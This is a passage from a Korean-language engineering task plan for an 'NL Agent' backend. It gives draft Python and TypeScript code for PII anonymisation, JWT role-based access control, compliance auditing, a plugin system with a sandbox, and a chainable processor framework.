            if key in pii_fields:
                if anonymization_level == "strict":
                    # 완전 제거
                    continue
                elif anonymization_level == "standard":
                    # 익명화
                    anonymized_data[key] = await self.anonymizer.anonymize(
                        value,
                        pii_fields[key]["type"]
                    )
                else:
                    # 부분 마스킹
                    anonymized_data[key] = self._partial_mask(value)
            else:
                anonymized_data[key] = value

        # 익명화 메타데이터 추가
        anonymized_data["_anonymization"] = {
            "level": anonymization_level,
            "timestamp": datetime.utcnow().isoformat(),
            "removed_fields": list(set(pii_fields.keys()) - set(anonymized_data.keys()))
        }

        return anonymized_data

    def _should_encrypt_field(self, field_name: str, level: str) -> bool:
        """필드 암호화 필요 여부 판단"""

        always_encrypt = [
            "description", "user_input", "requirements",
            "clarification_answers", "feedback"
        ]

        sensitive_fields = [
            "email", "phone", "address", "name",
            "company", "project_details"
        ]

        if level == "strict":
            return True
        elif level == "standard":
            return field_name in always_encrypt or field_name in sensitive_fields
        else:
            return field_name in always_encrypt

    def _partial_mask(self, value: str) -> str:
        """부분 마스킹"""
        if len(value) <= 4:
            return "*" * len(value)

        visible_chars = max(2, len(value) // 4)
        return value[:visible_chars] + "*" * (len(value) - visible_chars * 2) + value[-visible_chars:]

    async def generate_privacy_report(
        self,
        user_id: str,
        start_date: datetime,
        end_date: datetime
    ) -> Dict[str, Any]:
        """프라이버시 보고서 생성"""

        report = {
            "user_id": hashlib.sha256(user_id.encode()).hexdigest(),
            "period": {
                "start": start_date.isoformat(),
                "end": end_date.isoformat()
            },
            "data_collected": await self._get_collected_data_summary(user_id, start_date, end_date),
            "data_sharing": await self._get_data_sharing_summary(user_id, start_date, end_date),
            "data_retention": await self._get_retention_status(user_id),
            "privacy_settings": await self._get_privacy_settings(user_id)
        }

        return report

class PIIDetector:
    """개인식별정보 감지기"""

    def __init__(self):
        self.patterns = {
            "email": re.compile(r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b'),
            "phone": re.compile(r'\b\d{3}[-.]?\d{3}[-.]?\d{4}\b'),
            "ssn": re.compile(r'\b\d{3}-\d{2}-\d{4}\b'),
            "credit_card": re.compile(r'\b\d{4}[\s-]?\d{4}[\s-]?\d{4}[\s-]?\d{4}\b'),
            "ip_address": re.compile(r'\b(?:[0-9]{1,3}\.){3}[0-9]{1,3}\b'),
            "name": None  # NER 모델 사용
        }

    async def detect_pii(self, data: Dict[str, Any]) -> Dict[str, Dict[str, Any]]:
        """PII 감지"""
        pii_fields = {}

        for key, value in data.items():
            if isinstance(value, str):
                for pii_type, pattern in self.patterns.items():
                    if pattern and pattern.search(value):
                        pii_fields[key] = {
                            "type": pii_type,
                            "confidence": 0.95
                        }
                        break

                # NER을 사용한 이름 감지
                if key not in pii_fields and await self._is_name(value):
                    pii_fields[key] = {
                        "type": "name",
                        "confidence": 0.8
                    }

        return pii_fields
```

**검증 기준**:

- [ ] AES-256 암호화 구현
- [ ] PII 자동 감지
- [ ] 데이터 익명화 기능
- [ ] 프라이버시 보고서 생성

#### SubTask 4.7.3: 접근 제어 및 인증

**담당자**: 보안 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/nl-access-control.ts
import jwt from 'jsonwebtoken';
import { Request, Response, NextFunction } from 'express';

interface TokenPayload {
  userId: string;
  role: string;
  permissions: string[];
  sessionId: string;
  exp: number;
}

interface AccessPolicy {
  resource: string;
  actions: string[];
  conditions?: Record<string, any>;
}

class NLAccessControl {
  private jwtSecret: string;
  private policies: Map<string, AccessPolicy[]>;
  private roleHierarchy: Map<string, string[]>;

  constructor() {
    this.jwtSecret = process.env.JWT_SECRET!;
    this.policies = new Map();
    this.roleHierarchy = new Map();
    this.initializePolicies();
  }

  private initializePolicies(): void {
    // 역할 계층 정의
    this.roleHierarchy.set('admin', ['power_user', 'user', 'guest']);
    this.roleHierarchy.set('power_user', ['user', 'guest']);
    this.roleHierarchy.set('user', ['guest']);
    this.roleHierarchy.set('guest', []);

    // 역할별 정책 정의
    this.policies.set('admin', [
      {
        resource: 'nl-input/*',
        actions: ['create', 'read', 'update', 'delete', 'analyze', 'configure'],
      },
      {
        resource: 'nl-analytics/*',
        actions: ['read', 'export'],
      },
    ]);

    this.policies.set('power_user', [
      {
        resource: 'nl-input/analyze',
        actions: ['create', 'read', 'update'],
        conditions: {
          rateLimit: 1000, // 일일 요청 수
          maxInputLength: 10000,
        },
      },
      {
        resource: 'nl-input/clarify/*',
        actions: ['create', 'read'],
      },
      {
        resource: 'nl-input/feedback',
        actions: ['create'],
      },
    ]);

    this.policies.set('user', [
      {
        resource: 'nl-input/analyze',
        actions: ['create', 'read'],
        conditions: {
          rateLimit: 100,
          maxInputLength: 5000,
        },
      },
      {
        resource: 'nl-input/clarify/*',
        actions: ['create', 'read'],
        conditions: {
          ownResourceOnly: true,
        },
      },
    ]);

    this.policies.set('guest', [
      {
        resource: 'nl-input/analyze',
        actions: ['create'],
        conditions: {
          rateLimit: 10,
          maxInputLength: 1000,
          requiresCaptcha: true,
        },
      },
    ]);
  }

  generateToken(user: { id: string; role: string; permissions?: string[] }): string {
    const payload: TokenPayload = {
      userId: user.id,
      role: user.role,
      permissions: user.permissions || this.getDefaultPermissions(user.role),
      sessionId: generateSessionId(),
      exp: Math.floor(Date.now() / 1000) + 60 * 60 * 24, // 24시간
    };

    return jwt.sign(payload, this.jwtSecret, {
      algorithm: 'HS256',
    });
  }

  verifyToken(token: string): TokenPayload | null {
    try {
      const payload = jwt.verify(token, this.jwtSecret) as TokenPayload;

      // 추가 검증
      if (payload.exp < Math.floor(Date.now() / 1000)) {
        return null;
      }

      return payload;
    } catch (error) {
      return null;
    }
  }

  async checkAccess(
    user: TokenPayload,
    resource: string,
    action: string,
    context?: Record<string, any>,
  ): Promise<boolean> {
    // 1. 역할 기반 정책 확인
    const userPolicies = this.getPoliciesForRole(user.role);

    for (const policy of userPolicies) {
      if (this.matchResource(resource, policy.resource) && policy.actions.includes(action)) {
        // 조건 확인
        if (policy.conditions) {
          const conditionsMet = await this.checkConditions(user, policy.conditions, context);

          if (!conditionsMet) {
            continue;
          }
        }

        return true;
      }
    }

    // 2. 개별 권한 확인
    const requiredPermission = `${resource}:${action}`;
    if (user.permissions.includes(requiredPermission)) {
      return true;
    }

    return false;
  }

  private getPoliciesForRole(role: string): AccessPolicy[] {
    const policies: AccessPolicy[] = [];

    // 현재 역할의 정책
    policies.push(...(this.policies.get(role) || []));

    // 상속된 역할의 정책
    const inheritedRoles = this.roleHierarchy.get(role) || [];
    for (const inheritedRole of inheritedRoles) {
      policies.push(...(this.policies.get(inheritedRole) || []));
    }

    return policies;
  }

  private matchResource(requestedResource: string, policyResource: string): boolean {
    // 와일드카드 매칭
    const regex = new RegExp('^' + policyResource.replace(/\*/g, '.*') + '$');
    return regex.test(requestedResource);
  }

  private async checkConditions(
    user: TokenPayload,
    conditions: Record<string, any>,
    context?: Record<string, any>,
  ): Promise<boolean> {
    // Rate limit 확인
    if (conditions.rateLimit) {
      const currentUsage = await this.getRateLimitUsage(user.userId);
      if (currentUsage >= conditions.rateLimit) {
        return false;
      }
    }

    // 입력 길이 제한
    if (conditions.maxInputLength && context?.inputLength) {
      if (context.inputLength > conditions.maxInputLength) {
        return false;
      }
    }

    // 리소스 소유권 확인
    if (conditions.ownResourceOnly && context?.resourceOwnerId) {
      if (context.resourceOwnerId !== user.userId) {
        return false;
      }
    }

    // CAPTCHA 확인
    if (conditions.requiresCaptcha && !context?.captchaVerified) {
      return false;
    }

    return true;
  }

  // Express 미들웨어
  authenticate() {
    return async (req: Request, res: Response, next: NextFunction) => {
      const token = this.extractToken(req);

      if (!token) {
        return res.status(401).json({
          error: 'Authentication required',
        });
      }

      const payload = this.verifyToken(token);
      if (!payload) {
        return res.status(401).json({
          error: 'Invalid or expired token',
        });
      }

      // 요청에 사용자 정보 추가
      (req as any).user = payload;
      next();
    };
  }

  authorize(resource: string, action: string) {
    return async (req: Request, res: Response, next: NextFunction) => {
      const user = (req as any).user as TokenPayload;

      if (!user) {
        return res.status(401).json({
          error: 'Authentication required',
        });
      }

      // 컨텍스트 수집
      const context = {
        inputLength: req.body?.description?.length,
        resourceOwnerId: req.params?.userId,
        captchaVerified: req.body?.captchaToken
          ? await this.verifyCaptcha(req.body.captchaToken)
          : false,
      };

      const hasAccess = await this.checkAccess(user, resource, action, context);

      if (!hasAccess) {
        return res.status(403).json({
          error: 'Access denied',
          required: `${resource}:${action}`,
        });
      }

      // Rate limiting 업데이트
      await this.updateRateLimit(user.userId);

      next();
    };
  }

  private extractToken(req: Request): string | null {
    // Bearer 토큰
    const authHeader = req.headers.authorization;
    if (authHeader?.startsWith('Bearer ')) {
      return authHeader.substring(7);
    }

    // 쿠키
    if (req.cookies?.auth_token) {
      return req.cookies.auth_token;
    }

    // 쿼리 파라미터 (WebSocket용)
    if (req.query?.token) {
      return req.query.token as string;
    }

    return null;
  }
}

// 사용 예시
const accessControl = new NLAccessControl();

// 라우트 보호
app.post(
  '/api/v1/nl-input/analyze',
  accessControl.authenticate(),
  accessControl.authorize('nl-input/analyze', 'create'),
  async (req, res) => {
    // 인증 및 인가된 요청 처리
  },
);
```

**검증 기준**:

- [ ] JWT 기반 인증
- [ ] 역할 기반 접근 제어 (RBAC)
- [ ] 세밀한 권한 관리
- [ ] Rate limiting 통합

#### SubTask 4.7.4: 컴플라이언스 및 감사

**담당자**: 컴플라이언스 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_compliance_audit.py
from typing import Dict, List, Optional, Any
from datetime import datetime, timedelta
import json
from enum import Enum

class ComplianceStandard(Enum):
    GDPR = "gdpr"
    CCPA = "ccpa"
    HIPAA = "hipaa"
    SOC2 = "soc2"
    ISO27001 = "iso27001"

class ComplianceAuditor:
    """NL Agent 컴플라이언스 및 감사"""

    def __init__(self):
        self.audit_logger = AuditLogger()
        self.compliance_rules = self._load_compliance_rules()
        self.data_processor = DataComplianceProcessor()

    def _load_compliance_rules(self) -> Dict[ComplianceStandard, Dict]:
        """컴플라이언스 규칙 로드"""
        return {
            ComplianceStandard.GDPR: {
                "data_retention_days": 730,  # 2년
                "requires_explicit_consent": True,
                "right_to_erasure": True,
                "data_portability": True,
                "privacy_by_design": True,
                "breach_notification_hours": 72
            },
            ComplianceStandard.CCPA: {
                "data_retention_days": 365,
                "opt_out_required": True,
                "data_sale_disclosure": True,
                "access_request_days": 45
            },
            ComplianceStandard.HIPAA: {
                "data_retention_days": 2190,  # 6년
                "encryption_required": True,
                "access_controls": "strict",
                "audit_retention_days": 2190
            }
        }

    async def audit_request(
        self,
        request_id: str,
        user_id: str,
        action: str,
        resource: str,
        data: Optional[Dict[str, Any]] = None,
        result: Optional[str] = None
    ):
        """API 요청 감사"""

        audit_entry = {
            "audit_id": generate_audit_id(),
            "timestamp": datetime.utcnow().isoformat(),
            "request_id": request_id,
            "user_id": hashlib.sha256(user_id.encode()).hexdigest(),
            "action": action,
            "resource": resource,
            "ip_address": self._get_client_ip(),
            "user_agent": self._get_user_agent(),
            "result": result or "success",
            "data_accessed": self._classify_data_access(data) if data else None,
            "compliance_checks": await self._run_compliance_checks(action, data)
        }

        # 감사 로그 저장
        await self.audit_logger.log(audit_entry)

        # 실시간 컴플라이언스 위반 검사
        violations = await self._check_violations(audit_entry)
        if violations:
            await self._handle_violations(violations, audit_entry)

    async def _run_compliance_checks(
        self,
        action: str,
        data: Optional[Dict[str, Any]]
    ) -> Dict[str, Any]:
        """컴플라이언스 체크 실행"""

        checks = {}

        # GDPR 체크
        if self._is_eu_user():
            checks["gdpr"] = {
                "consent_verified": await self._verify_consent(action),
                "lawful_basis": self._determine_lawful_basis(action),
                "data_minimization": self._check_data_minimization(data)
            }

        # CCPA 체크
        if self._is_california_user():
            checks["ccpa"] = {
                "opt_out_respected": await self._check_opt_out_status(),
                "data_categories": self._categorize_data(data)
            }

        # HIPAA 체크 (의료 관련 프로젝트)
        if await self._contains_health_data(data):
            checks["hipaa"] = {
                "encryption_used": True,  # 항상 암호화
                "minimum_necessary": self._check_minimum_necessary(data),
                "authorization_valid": await self._verify_hipaa_authorization()
            }

        return checks

    async def generate_compliance_report(
        self,
        standard: ComplianceStandard,
        start_date: datetime,
        end_date: datetime
    ) -> Dict[str, Any]:
        """컴플라이언스 보고서 생성"""

        report = {
            "standard": standard.value,
            "period": {
                "start": start_date.isoformat(),
                "end": end_date.isoformat()
            },
            "summary": {},
            "violations": [],
            "recommendations": []
        }

        if standard == ComplianceStandard.GDPR:
            report["summary"] = await self._generate_gdpr_summary(start_date, end_date)
            report["data_subject_requests"] = await self._get_dsr_summary(start_date, end_date)
            report["consent_metrics"] = await self._get_consent_metrics(start_date, end_date)

        elif standard == ComplianceStandard.SOC2:
            report["controls"] = await self._evaluate_soc2_controls()
            report["incidents"] = await self._get_security_incidents(start_date, end_date)
            report["availability_metrics"] = await self._calculate_availability()

        # 위반 사항 수집
        report["violations"] = await self._collect_violations(standard, start_date, end_date)

        # 개선 권고사항
        report["recommendations"] = self._generate_recommendations(report)

        return report

    async def handle_data_subject_request(
        self,
        request_type: str,
        user_id: str,
        details: Dict[str, Any]
    ) -> Dict[str, Any]:
        """데이터 주체 요청 처리 (GDPR/CCPA)"""

        request_id = generate_request_id()

        # 요청 기록
        await self._log_dsr(request_id, request_type, user_id, details)

        result = {}

        if request_type == "access":
            # 데이터 접근 요청
            user_data = await self._collect_user_data(user_id)
            result = {
                "request_id": request_id,
                "data": user_data,
                "generated_at": datetime.utcnow().isoformat()
            }

        elif request_type == "erasure":
            # 삭제 요청 (Right to be forgotten)
            deletion_result = await self._process_erasure_request(user_id)
            result = {
                "request_id": request_id,
                "deleted_records": deletion_result["count"],
                "retained_data": deletion_result["retained"],
                "retention_reasons": deletion_result["reasons"]
            }

        elif request_type == "portability":
            # 데이터 이동성 요청
            portable_data = await self._prepare_portable_data(user_id)
            result = {
                "request_id": request_id,
                "download_url": await self._generate_download_url(portable_data),
                "format": "json",
                "expires_at": (datetime.utcnow() + timedelta(days=7)).isoformat()
            }

        elif request_type == "rectification":
            # 정정 요청
            rectification_result = await self._process_rectification(
                user_id,
                details["corrections"]
            )
            result = {
                "request_id": request_id,
                "updated_fields": rectification_result["updated"],
                "failed_updates": rectification_result["failed"]
            }

        # 요청 완료 기록
        await self._complete_dsr(request_id, result)

        return result

    async def _process_erasure_request(
        self,
        user_id: str
    ) -> Dict[str, Any]:
        """삭제 요청 처리"""

        deletion_result = {
            "count": 0,
            "retained": [],
            "reasons": []
        }

        # 삭제 가능한 데이터 식별
        user_data = await self._collect_user_data(user_id)

        for data_category, records in user_data.items():
            # 법적 보존 의무 확인
            retention_required = await self._check_legal_retention(
                data_category,
                records
            )

            if retention_required:
                deletion_result["retained"].append(data_category)
                deletion_result["reasons"].append(retention_required["reason"])
            else:
                # 데이터 삭제
                deleted_count = await self._delete_user_data(
                    user_id,
                    data_category,
                    records
                )
                deletion_result["count"] += deleted_count

        # 삭제 증명서 생성
        await self._generate_deletion_certificate(user_id, deletion_result)

        return deletion_result

class AuditLogger:
    """감사 로그 관리"""

    def __init__(self):
        self.storage = AuditStorage()
        self.encryptor = LogEncryptor()

    async def log(self, entry: Dict[str, Any]):
        """감사 로그 기록"""

        # 로그 암호화
        encrypted_entry = await self.encryptor.encrypt(entry)

        # 무결성 해시 추가
        entry_with_hash = {
            **encrypted_entry,
            "integrity_hash": self._calculate_hash(encrypted_entry)
        }

        # 저장
        await self.storage.store(entry_with_hash)

        # 중요 이벤트는 별도 알림
        if self._is_critical_event(entry):
            await self._send_critical_alert(entry)

    def _calculate_hash(self, entry: Dict[str, Any]) -> str:
        """무결성 해시 계산"""
        import hashlib
        serialized = json.dumps(entry, sort_keys=True)
        return hashlib.sha256(serialized.encode()).hexdigest()
```

**검증 기준**:

- [ ] 주요 컴플라이언스 표준 지원
- [ ] 자동 감사 로그 생성
- [ ] 데이터 주체 권리 처리
- [ ] 컴플라이언스 보고서 생성

---

### Task 4.8: NL Agent 확장성 및 플러그인 시스템

#### SubTask 4.8.1: 플러그인 아키텍처 설계

**담당자**: 소프트웨어 아키텍트  
**예상 소요시간**: 14시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_plugin_system.py
from abc import ABC, abstractmethod
from typing import Dict, List, Any, Optional, Type
import importlib
import inspect
from dataclasses import dataclass

@dataclass
class PluginMetadata:
    name: str
    version: str
    author: str
    description: str
    dependencies: List[str]
    capabilities: List[str]
    configuration_schema: Dict[str, Any]

class NLPlugin(ABC):
    """NL Agent 플러그인 베이스 클래스"""

    @property
    @abstractmethod
    def metadata(self) -> PluginMetadata:
        """플러그인 메타데이터"""
        pass

    @abstractmethod
    async def initialize(self, config: Dict[str, Any]):
        """플러그인 초기화"""
        pass

    @abstractmethod
    async def process(self, input_data: Any, context: Dict[str, Any]) -> Any:
        """플러그인 처리 로직"""
        pass

    @abstractmethod
    async def cleanup(self):
        """플러그인 정리"""
        pass

    def validate_config(self, config: Dict[str, Any]) -> bool:
        """설정 검증"""
        schema = self.metadata.configuration_schema
        # JSON Schema 검증 로직
        return True

class NLPluginManager:
    """플러그인 관리자"""

    def __init__(self):
        self.plugins: Dict[str, NLPlugin] = {}
        self.plugin_registry = PluginRegistry()
        self.dependency_resolver = DependencyResolver()
        self.sandbox_executor = SandboxExecutor()

    async def load_plugin(self, plugin_path: str) -> str:
        """플러그인 로드"""

        try:
            # 플러그인 모듈 동적 로드
            spec = importlib.util.spec_from_file_location(
                "plugin_module",
                plugin_path
            )
            module = importlib.util.module_from_spec(spec)
            spec.loader.exec_module(module)

            # NLPlugin 서브클래스 찾기
            plugin_class = None
            for name, obj in inspect.getmembers(module):
                if (inspect.isclass(obj) and
                    issubclass(obj, NLPlugin) and
                    obj != NLPlugin):
                    plugin_class = obj
                    break

            if not plugin_class:
                raise ValueError("No valid plugin class found")

            # 플러그인 인스턴스 생성
            plugin_instance = plugin_class()
            metadata = plugin_instance.metadata

            # 의존성 확인
            await self._check_dependencies(metadata.dependencies)

            # 보안 검증
            await self._validate_plugin_security(plugin_instance)

            # 플러그인 등록
            self.plugins[metadata.name] = plugin_instance
            await self.plugin_registry.register(metadata)

            logger.info(f"Plugin loaded: {metadata.name} v{metadata.version}")
            return metadata.name

        except Exception as e:
            logger.error(f"Failed to load plugin from {plugin_path}: {str(e)}")
            raise PluginLoadError(f"Plugin load failed: {str(e)}")

    async def unload_plugin(self, plugin_name: str):
        """플러그인 언로드"""

        if plugin_name not in self.plugins:
            raise PluginNotFoundError(f"Plugin {plugin_name} not found")

        plugin = self.plugins[plugin_name]

        # 플러그인 정리
        await plugin.cleanup()

        # 등록 해제
        del self.plugins[plugin_name]
        await self.plugin_registry.unregister(plugin_name)

        logger.info(f"Plugin unloaded: {plugin_name}")

    async def execute_plugin(
        self,
        plugin_name: str,
        input_data: Any,
        context: Dict[str, Any],
        timeout: int = 30
    ) -> Any:
        """플러그인 실행"""

        if plugin_name not in self.plugins:
            raise PluginNotFoundError(f"Plugin {plugin_name} not found")

        plugin = self.plugins[plugin_name]

        # 샌드박스 환경에서 실행
        result = await self.sandbox_executor.execute(
            plugin.process,
            input_data,
            context,
            timeout=timeout
        )

        return result

    async def _check_dependencies(self, dependencies: List[str]):
        """의존성 확인"""

        missing_deps = []

        for dep in dependencies:
            if dep.startswith("plugin:"):
                # 다른 플러그인 의존성
                plugin_name = dep.replace("plugin:", "")
                if plugin_name not in self.plugins:
                    missing_deps.append(dep)
            else:
                # 시스템 의존성
                if not self._check_system_dependency(dep):
                    missing_deps.append(dep)

        if missing_deps:
            raise DependencyError(f"Missing dependencies: {missing_deps}")

    async def _validate_plugin_security(self, plugin: NLPlugin):
        """플러그인 보안 검증"""

        # 위험한 import 검사
        dangerous_imports = [
            'os', 'subprocess', 'eval', 'exec',
            '__import__', 'compile', 'open'
        ]

        # 플러그인 코드 검사
        source_code = inspect.getsource(plugin.__class__)
        for dangerous in dangerous_imports:
            if dangerous in source_code:
                raise SecurityError(
                    f"Plugin contains potentially dangerous import: {dangerous}"
                )

        # 권한 검사
        required_permissions = plugin.metadata.capabilities
        if not self._validate_permissions(required_permissions):
            raise SecurityError("Plugin requires excessive permissions")

# 플러그인 예제: 도메인 특화 언어 처리
class DomainSpecificPlugin(NLPlugin):
    """도메인 특화 언어 처리 플러그인"""

    @property
    def metadata(self) -> PluginMetadata:
        return PluginMetadata(
            name="domain-specific-processor",
            version="1.0.0",
            author="T-Developer Team",
            description="Process domain-specific language requirements",
            dependencies=["spacy>=3.0", "transformers>=4.0"],
            capabilities=["text_processing", "entity_extraction"],
            configuration_schema={
                "type": "object",
                "properties": {
                    "domain": {
                        "type": "string",
                        "enum": ["medical", "legal", "finance"]
                    },
                    "model_path": {"type": "string"}
                },
                "required": ["domain"]
            }
        )

    async def initialize(self, config: Dict[str, Any]):
        """플러그인 초기화"""
        self.domain = config["domain"]
        self.model = await self._load_domain_model(config.get("model_path"))
        self.entity_extractor = DomainEntityExtractor(self.domain)

    async def process(
        self,
        input_data: str,
        context: Dict[str, Any]
    ) -> Dict[str, Any]:
        """도메인 특화 처리"""

        # 도메인별 전처리
        preprocessed = await self._preprocess_for_domain(input_data)

        # 엔티티 추출
        entities = await self.entity_extractor.extract(preprocessed)

        # 도메인 특화 요구사항 분석
        requirements = await self._analyze_domain_requirements(
            preprocessed,
            entities
        )

        return {
            "domain": self.domain,
            "entities": entities,
            "requirements": requirements,
            "confidence": self._calculate_confidence(entities, requirements)
        }

    async def cleanup(self):
        """리소스 정리"""
        if hasattr(self, 'model'):
            del self.model

# 플러그인 실행 샌드박스
class SandboxExecutor:
    """안전한 플러그인 실행 환경"""

    def __init__(self):
        self.resource_limiter = ResourceLimiter()
        self.permission_manager = PermissionManager()

    async def execute(
        self,
        func: callable,
        *args,
        timeout: int = 30,
        **kwargs
    ) -> Any:
        """샌드박스에서 함수 실행"""

        # 리소스 제한 설정
        with self.resource_limiter.limit(
            cpu_percent=50,
            memory_mb=512,
            disk_io_mb_per_sec=10
        ):
            # 권한 제한
            with self.permission_manager.restrict(
                network_access=False,
                file_system_access="read_only",
                system_calls=False
            ):
                # 타임아웃 적용
                try:
                    result = await asyncio.wait_for(
                        func(*args, **kwargs),
                        timeout=timeout
                    )
                    return result
                except asyncio.TimeoutError:
                    raise PluginTimeoutError(
                        f"Plugin execution timed out after {timeout}s"
                    )
```

**검증 기준**:

- [ ] 플러그인 동적 로드/언로드
- [ ] 의존성 관리 시스템
- [ ] 샌드박스 실행 환경
- [ ] 보안 검증 메커니즘

#### SubTask 4.8.2: 커스텀 프로세서 개발 프레임워크

**담당자**: 프레임워크 개발자  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/nl-custom-processor-framework.ts
interface ProcessorContext {
  sessionId: string;
  userId: string;
  projectId?: string;
  metadata: Record<string, any>;
  sharedState: Map<string, any>;
}

interface ProcessorResult<T = any> {
  success: boolean;
  data?: T;
  error?: Error;
  metadata?: Record<string, any>;
  nextProcessor?: string;
}

abstract class CustomProcessor<TInput = any, TOutput = any> {
  protected name: string;
  protected version: string;
  protected config: Record<string, any>;

  constructor(name: string, version: string = '1.0.0') {
    this.name = name;
    this.version = version;
    this.config = {};
  }

  // 추상 메서드들
  abstract async validate(input: TInput): Promise<boolean>;
  abstract async process(
    input: TInput,
    context: ProcessorContext,
  ): Promise<ProcessorResult<TOutput>>;

  // 선택적 훅
  async beforeProcess(input: TInput, context: ProcessorContext): Promise<void> {}
  async afterProcess(result: ProcessorResult<TOutput>, context: ProcessorContext): Promise<void> {}
  async onError(error: Error, context: ProcessorContext): Promise<void> {}

  // 유틸리티 메서드
  protected async cacheResult(key: string, value: any, ttl: number = 3600): Promise<void> {
    await cache.set(`processor:${this.name}:${key}`, value, ttl);
  }

  protected async getCached(key: string): Promise<any> {
    return cache.get(`processor:${this.name}:${key}`);
  }
}

// 프로세서 체인 빌더
class ProcessorChainBuilder {
  private processors: CustomProcessor[] = [];
  private errorHandlers: Map<string, (error: Error) => Promise<void>> = new Map();
  private middlewares: Array<(ctx: ProcessorContext) => Promise<void>> = [];

  add<T extends CustomProcessor>(
    processor: T,
    condition?: (input: any, context: ProcessorContext) => boolean,
  ): this {
    if (condition) {
      // 조건부 프로세서 래핑
      const conditionalProcessor = new ConditionalProcessor(processor, condition);
      this.processors.push(conditionalProcessor);
    } else {
      this.processors.push(processor);
    }
    return this;
  }

  parallel<T extends CustomProcessor>(...processors: T[]): this {
    const parallelProcessor = new ParallelProcessor(processors);
    this.processors.push(parallelProcessor);
    return this;
  }

  branch(
    condition: (input: any, context: ProcessorContext) => boolean,
    trueChain: ProcessorChainBuilder,
    falseChain?: ProcessorChainBuilder,
  ): this {
    const branchProcessor = new BranchProcessor(condition, trueChain, falseChain);
    this.processors.push(branchProcessor);
    return this;
  }

  retry(processor: CustomProcessor, options: RetryOptions): this {
    const retryProcessor = new RetryProcessor(processor, options);
    this.processors.push(retryProcessor);
    return this;
  }

  onError(processorName: string, handler: (error: Error) => Promise<void>): this {
    this.errorHandlers.set(processorName, handler);
    return this;
  }

  use(middleware: (ctx: ProcessorContext) => Promise<void>): this {
    this.middlewares.push(middleware);
    return this;
  }

  build(): ProcessorChain {
    return new ProcessorChain(this.processors, this.errorHandlers, this.middlewares);
  }
}

// 프로세서 체인 실행기
class ProcessorChain {
  constructor(
    private processors: CustomProcessor[],
    private errorHandlers: Map<string, (error: Error) => Promise<void>>,
    private middlewares: Array<(ctx: ProcessorContext) => Promise<void>>,
  ) {}

  async execute<T = any>(input: any, context: ProcessorContext): Promise<ProcessorResult<T>> {
    // 미들웨어 실행
    for (const middleware of this.middlewares) {
      await middleware(context);
    }

    let currentInput = input;
    let lastResult: ProcessorResult<any> = { success: true };

    for (const processor of this.processors) {
      try {
        // 프로세서 실행
        await processor.beforeProcess(currentInput, context);

        const result = await processor.process(currentInput, context);

        await processor.afterProcess(result, context);

        if (!result.success) {
          return result;
        }

        // 다음 프로세서를 위한 입력 준비
        currentInput = result.data || currentInput;
        lastResult = result;

        // 다음 프로세서 지정이 있으면 점프
        if (result.nextProcessor) {
          const nextIndex = this.processors.findIndex((p) => p.name === result.nextProcessor);
          if (nextIndex > -1) {
            // 지정된 프로세서로 점프
            continue;
          }
        }
      } catch (error) {
        // 에러 핸들러 실행
        const handler = this.errorHandlers.get(processor.name);
        if (handler) {
          await handler(error);
        }

        await processor.onError(error, context);

        return {
          success: false,
          error: error,
          metadata: { failedProcessor: processor.name },
        };
      }
    }

    return lastResult;
  }
}

// 커스텀 프로세서 예제
class LanguageDetectionProcessor extends CustomProcessor<
  string,
  { language: string; confidence: number }
> {
  constructor() {
    super('language-detection', '1.0.0');
  }

  async validate(input: string): Promise<boolean> {
    return typeof input === 'string' && input.length > 0;
  }

  async process(
    input: string,
    context: ProcessorContext,
  ): Promise<ProcessorResult<{ language: string; confidence: number }>> {
    try {
      // 캐시 확인
      const cacheKey = `lang:${hashString(input)}`;
      const cached = await this.getCached(cacheKey);

      if (cached) {
        return {
          success: true,
          data: cached,
          metadata: { fromCache: true },
        };
      }

      // 언어 감지 로직
      const detected = await detectLanguage(input);

      // 결과 캐싱
      await this.cacheResult(cacheKey, detected);

      // 컨텍스트에 언어 정보 저장
      context.sharedState.set('detectedLanguage', detected.language);

      return {
        success: true,
        data: detected,
        metadata: { processingTime: Date.now() },
      };
    } catch (error) {
      return {
        success: false,
        error: error as Error,
      };
    }
  }
}

class TranslationProcessor extends CustomProcessor<string, string> {
  constructor(private targetLanguage: string = 'en') {
    super('translation', '1.0.0');
  }

  async validate(input: string): Promise<boolean> {
    return typeof input === 'string' && input.length > 0;
  }

  async process(input: string, context: ProcessorContext): Promise<ProcessorResult<string>> {
    // 소스 언어 확인
    const sourceLanguage = context.sharedState.get('detectedLanguage') || 'auto';

    if (sourceLanguage === this.targetLanguage) {
      // 번역 불필요
      return {
        success: true,
        data: input,
        metadata: { skipped: true },
      };
    }

    try {
      const translated = await translateText(input, sourceLanguage, this.targetLanguage);

      return {
        success: true,
        data: translated,
        metadata: {
          sourceLanguage,
          targetLanguage: this.targetLanguage,
        },
      };
    } catch (error) {
      return {
        success: false,
        error: error as Error,
      };
    }
  }
}

// 사용 예시
const nlProcessingChain = new ProcessorChainBuilder()
  // 언어 감지
  .add(new LanguageDetectionProcessor())

  // 영어가 아닌 경우 번역
  .add(
    new TranslationProcessor('en'),
    (input, ctx) => ctx.sharedState.get('detectedLanguage') !== 'en',
  )

  // 병렬 처리
  .parallel(
    new EntityExtractionProcessor(),
    new SentimentAnalysisProcessor(),
    new IntentClassificationProcessor(),
  )

  // 조건부 분기
  .branch(
    (input, ctx) => ctx.sharedState.get('intent') === 'technical',
    new ProcessorChainBuilder()
      .add(new TechnicalRequirementProcessor())
      .add(new ArchitectureAnalysisProcessor()),
    new ProcessorChainBuilder().add(new GeneralRequirementProcessor()),
  )

  // 에러 핸들링
  .onError('translation', async (error) => {
    logger.error('Translation failed', error);
  })

  // 미들웨어
  .use(async (ctx) => {
    // 처리 시작 로깅
    logger.info(`Processing started for session: ${ctx.sessionId}`);
  })

  .build();

// 실행
const result = await nlProcessingChain.execute(userInput, {
  sessionId: 'session-123',
  userId: 'user-456',
  metadata: {},
  sharedState: new Map(),
});
```

**검증 기준**:

- [ ] 체인 가능한 프로세서 아키텍처
- [ ] 조건부/병렬 처리 지원
- [ ] 에러 핸들링 및 재시도
- [ ] 상태 공유 메커니즘

#### SubTask 4.8.3: 외부 서비스 통합 어댑터

**담당자**: 통합 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_service_adapters.py
from abc import ABC, abstractmethod
